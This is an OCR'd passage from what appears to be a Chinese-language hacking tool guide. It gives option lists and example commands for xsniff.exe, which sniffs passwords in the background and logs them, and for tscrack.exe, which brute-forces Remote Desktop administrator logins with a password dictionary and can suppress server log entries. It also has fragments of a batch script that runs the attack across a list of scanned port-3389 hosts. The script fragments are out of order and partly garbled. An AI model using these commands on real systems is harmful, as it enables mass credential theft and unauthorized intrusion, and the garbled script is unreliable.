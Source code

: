 　　-port 端口 过滤端口

　　-log 文件名 将输出保存到文件

　　-asc 以ASCII形式输出

　　-hex 以16进制形式输出

　　用法示例

　　xsniff.exe -pass -hide -log pass.log 后台运行嗅探密码并将密码信息保存在pass.log文件中

　　xsniff.exe -tcp -udp -asc -addr 192.168.1.1 嗅探192.168.1.1并过滤tcp和udp信息并以ASCII格式输出



　　**终端服务密码破解: tscrack.exe**

　　参数说明

　　-h 显示使用帮助

　　-v 显示版本信息

　　-s 在屏幕上打出解密能力

　　-b 密码错误时发出的声音

　　-t 同是发出多个连接（多线程）

　　-N Prevent System Log entries on targeted server

　　-U 卸载移除tscrack组件

　　-f 使用－f后面的密码

　　-F 间隔时间（频率）

　　-l 使用－l后面的用户名

　　-w 使用－w后面的密码字典

　　-p 使用－p后面的密码

　　-D 登录主页面

　　用法示例

　　tscrack 192.168.0.1 -l administrator -w pass.dic 远程用密码字典文件暴破主机的administrator的登陆密码

　　tscrack 192.168.0.1 -l administrator -p 123456 用密码123456远程登陆192.168.0.1的administrator用户

　　@if not exist ipcscan.txt goto noscan

　　@for /f "tokens=1 delims= " %%i in (3389.txt) do call hack.bat %%i

　　nscan

　　@echo 3389.txt no find or scan faild

　　(①存为3389.bat) （假设现有用SuperScan或其它扫锚器扫到一批开有3389的主机IP列表文件3389.txt)

　　3389.bat意思是：从3389.txt文件中取一个IP，接着运行hack.bat

　　@if not exist tscrack.exe goto noscan
